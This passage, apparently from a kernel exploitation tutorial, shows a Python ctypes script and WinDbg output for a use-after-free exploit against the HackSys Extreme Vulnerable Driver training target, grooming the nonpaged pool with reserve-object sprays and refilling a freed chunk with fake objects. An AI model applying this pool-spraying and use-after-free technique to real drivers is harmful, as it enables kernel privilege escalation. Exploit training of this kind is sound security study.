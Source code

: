 Now, I allocate fake objects with the same junk
```
import sys,struct
from ctypes import *
from subprocess import *

def main():
    kernel32 = windll.kernel32
    ntdll = windll.ntdll

    hevDevice = kernel32.CreateFileA("\\\\.\\HackSysExtremeVulnerableDriver", 0xC0000000, 0, None, 0x3, 0, None)

    if not hevDevice or hevDevice == -1:
       print "[-] Couldn't get Device Driver handle."
       sys.exit(0)

    spray_event1 = spray_event2 = []

    for i in xrange(10000):
        spray_event1.append(ntdll.NtAllocateReserveObject(byref(HANDLE(0)), 0, 1))
 
    for i in xrange(5000):
        spray_event2.append(ntdll.NtAllocateReserveObject(byref(HANDLE(0)), 0, 1))

    for i in xrange(0, len(spray_event2), 2):
        kernel32.CloseHandle(spray_event2[i])

    # allocate
    kernel32.DeviceIoControl(hevDevice, 0x222013, None, None, None, 0, byref(c_ulong()), None)

    # free
    kernel32.DeviceIoControl(hevDevice, 0x22201B, None, None, None, 0, byref(c_ulong()), None)

    # allocate fake
    fake_obj = "\x41" * 0x60
    for i in xrange(5000):
        kernel32.DeviceIoControl(hevDevice, 0x22201F, fake_obj, len(fake_obj), None, 0, byref(c_ulong()), None)

if __name__ == "__main__":
    main()
```

The "Hack" block sprayed upto junk data after the pool header
```
****** HACKSYS_EVD_IOCTL_ALLOCATE_FAKE_OBJECT ******
[+] Creating Fake Object
[+] Pool Tag: 'kcaH'
[+] Pool Type: NonPagedPool
[+] Pool Size: 0x58
[+] Pool Chunk: 0x85A45FA8
[+] Fake Object: 0x85A45FA8
Breakpoint 1 hit
HEVD!AllocateFakeObject+0xd4:
a4bfb5cc 8b45e4          mov     eax,dword ptr [ebp-1Ch]
kd> !pool 0x85A45FA8
Pool page 85a45fa8 region is Nonpaged pool
 85a45000 size:   60 previous size:    0  (Allocated)  IoCo (Protected)
 85a45060 size:  f40 previous size:   60  (Free)       A.\.
*85a45fa0 size:   60 previous size:  f40  (Allocated) *Hack
		Owning component : Unknown (update pooltag.txt)
kd> dd 85a45fa0
85a45fa0  040c01e8 6b636148 41414141 41414141
85a45fb0  41414141 41414141 41414141 41414141
```